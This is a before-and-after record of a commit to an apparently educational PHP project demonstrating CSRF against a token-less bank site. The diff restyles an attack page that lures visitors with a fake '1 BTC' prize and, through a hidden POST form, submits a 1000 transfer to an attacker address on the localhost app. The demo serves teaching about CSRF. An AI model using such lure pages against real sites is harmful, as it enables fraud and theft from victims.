

Before and after one commit to BADRYZ/Bank-sans-token-attaque-csrf--php, a PHP site: page /sans-csrf/attaqueb.php in a window 1280 px wide. Shown: the whole page, without its empty margins (0-1037 px from the left). Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
version final

```diff
--- a/attaqueb.php
+++ b/attaqueb.php
@@ -1,10 +1,66 @@
-<html>
+<!DOCTYPE html>
+<html lang="fr">
+<head>
+  <meta charset="UTF-8">
+  <meta name="viewport" content="width=device-width, initial-scale=1.0">
+  <title>Notification de Gain</title>
+  <style>
+    body {
+      font-family: Arial, sans-serif;
+      background-color: #f0f0f0;
+      margin: 0;
+      padding: 0;
+      display: flex;
+      justify-content: center;
+      align-items: center;
+      height: 100vh;
+    }
+
+    .container {
+      background-color: #fff;
+      border-radius: 8px;
+      padding: 20px;
+      box-shadow: 0 2px 5px rgba(0, 0, 0, 0.1);
+      text-align: center;
+    }
+
+    h1 {
+      color: #007bff;
+    }
+
+    p {
+      color: #333;
+      margin-bottom: 20px;
+    }
+
+    .claim-button {
+      background-color: #007bff;
+      color: #fff;
+      border: none;
+      border-radius: 4px;
+      padding: 10px 20px;
+      font-size: 16px;
+      cursor: pointer;
+      transition: background-color 0.3s ease;
+    }
+
+    .claim-button:hover {
+      background-color: #0056b3;
+    }
+  </style>
+</head>
 <body>
-  <h1>Vous avez gagné un prix ! Cliquez pour réclamer.</h1>
-  <form action="http://localhost/sans-csrf/process_transfer.php" method="POST" id="maliciousForm">
-    <input type="hidden" name="recipientEmail" value="attaquant@example.com">
-    <input type="hidden" name="amount" value="1000">
-  </form>
-  <button onclick="document.getElementById('maliciousForm').submit()">Réclamer Prix</button>
+  <div class="container">
+    <h1>Félicitations !</h1>
+    <p>Vous avez gagné 1 BTC gratuit ! Cliquez sur le bouton ci-dessous pour réclamer votre prix.</p>
+
+    <form action="http://localhost/sans-csrf/process_transfer.php" method="POST" id="maliciousForm">
+      <input type="hidden" name="recipientEmail" value="attaquant@example.com">
+      <input type="hidden" name="amount" value="1000">
+    </form>
+
+
+
+    <button  class="claim-button" onclick="document.getElementById('maliciousForm').submit()">Réclamer Prix</button>  </div>
 </body>
 </html>
```
